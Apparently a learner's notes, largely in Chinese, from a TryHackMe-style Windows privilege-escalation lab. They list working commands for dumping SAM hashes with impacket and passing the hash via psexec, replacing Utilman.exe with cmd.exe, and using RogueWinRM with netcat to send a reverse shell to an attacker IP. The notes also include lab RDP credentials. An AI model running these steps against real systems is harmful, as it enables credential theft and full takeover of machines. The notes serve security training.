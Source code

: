 		--> kali : 
			--> cd /home/kali/share
			--> 使用 impacket 檢索使用者的密碼雜湊值 
				--> python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
		--> 使用管理員hash=> 獲得具有系統權限的存取權限：
			--> python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 Administrator@10.10.28.124
 
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> SeTakeOwnership (所有權)
		--> xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.28.124 /u:THMTakeOwnership /p:'TheWorldIsMine2022'
		--> 允許使用者取得系統上任何物件的所有權，包括檔案和註冊表項
		
		--> 替換 utilman
			--> utilman.exe :
				--> 用於在鎖定螢幕期間提供「輕鬆存取」選項
				--> 以 SYSTEM 權限運行的
			--> 取得utilman的所有權
				--> takeown /f C:\Windows\System32\Utilman.exe
			--> 分配權限
				--> icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
			--> 用 cmd.exe 的副本取代 utilman.exe
				--> copy cmd.exe utilman.exe
				
			--> 觸發 utilman，我們將從開始按鈕鎖定螢幕： (Lock)
				--> 按 "Ease of Access" button
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~			
	--> SeImpersonate / SeAssignPrimaryToken
		-->允許進程模擬其他使用者並代表他們執行操作
		--> 1. 產生一個進程，以便使用者可以連接該進程並對其進行身份驗證，以進行模擬
		--> 2.找到一種方法來強制特權使用者連線並驗證產生的惡意進程
		
		--> 10.10.28.124
		--> RogueWinRM 漏洞
			--> Web shell 檢查受感染帳戶的分配權限
			--> whoami /priv
				=> SeAssignPrimaryToken
				=> SeImpersonateToken

			--> 連接埠 5985 通常用於 WinRM 服務
			--> 一個公開 Powershell 控制台以透過網路遠端使用的連接埠 (like ssh)
			
			--> nc -lvp 4442
			--> c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe 10.11.92.230 4442"
				=> -p 要執行的exe | -a 傳遞參數
				
			--> cd ../../Users/Administrator/Desktop

## Abusing vulnerable software :
	--> xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.144.74 /u:thm-unpriv /p:'Password321'
	